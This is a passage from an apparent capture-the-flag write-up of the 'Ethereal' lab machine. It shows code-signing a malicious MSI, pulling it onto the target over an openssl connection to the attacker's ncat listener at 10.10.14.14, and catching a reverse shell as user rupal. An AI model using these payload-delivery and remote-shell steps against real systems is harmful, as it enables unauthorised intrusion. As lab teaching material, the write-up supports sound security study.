 If I add the CA cert to my root cert store by right-clicking and selecting “Install”, it will then verify:

![1542319234864](https://0xdfimages.gitlab.io/img/1542319234864.png)

```

C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>signtool.exe verify /pa \Users\0xdf\Desktop\Ethereal\Ethereal.msi
Successfully verified: \Users\0xdf\Desktop\Ethereal\Ethereal.msi

```

Now it’s signed:

![1542319389198](https://0xdfimages.gitlab.io/img/1542319389198.png)

### Transfer to Ethereal

I’ll kill the shell output again and use that to copy my MSI to target:

```

c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136 > c:\users\public\desktop\shortcuts\msi.msi

```

```

root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 136 < Ethereal.msi                                                                                        
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::136
Ncat: Listening on 0.0.0.0:136
Ncat: Connection from 10.10.10.106.
Ncat: Connection from 10.10.10.106:49679.

```

### Shell

Then I’ll copy that file into the MSI directory, restart both `openssl` listeners, and wait. I get a shell as rupal:

```

root@kali# openssl s_server -quiet -key key.pem -cert cert.pem -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
ethereal\rupal

```
